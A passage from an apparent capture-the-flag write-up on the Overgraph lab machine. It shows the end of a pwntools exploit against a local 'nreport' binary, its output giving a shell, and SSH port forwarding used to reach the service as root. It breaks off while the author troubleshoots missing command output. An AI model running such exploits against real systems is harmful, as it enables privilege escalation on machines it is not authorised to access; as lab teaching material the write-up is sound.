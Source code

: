 ```

create("title", "message")
edit(13, "bash\x00", "0xdf")
x = p.recv()
p.sendline(b"5")
p.interactive()

```

### Shell

#### PTY Issues

Running this exploit locally returns a functional shell:

```

oxdf@hacky$ python root.py 
[+] Starting local process './nreport': pid 104479
[*] Switching to interactive mode
$ id
uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),139(libvirt),998(vboxsf)

```

To get this running on Overgraph, I’ll connect over SSH as user with `-L 9851:localhost:9851`, creating a listening port on my VM that will forward traffic to 9851 on Overgraph’s localhost.

I’ll run the exploit, and get what looks like a shell:

```

oxdf@hacky$ python root.py REMOTE
[+] Opening connection to 127.0.0.1 on port 9851: Done
[*] Switching to interactive mode
...[snip]...
root@overgraph:~# $

```

However, when I run a command, there’s no output:

```

root@overgraph:~# id

root@overgraph:~#

```

Trying things like `reset`, or even a full [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q) doesn’t fix it.

If I try `ping -c 1 10.10.14.6`, I will detect ICMP packets in `tcpdump`:
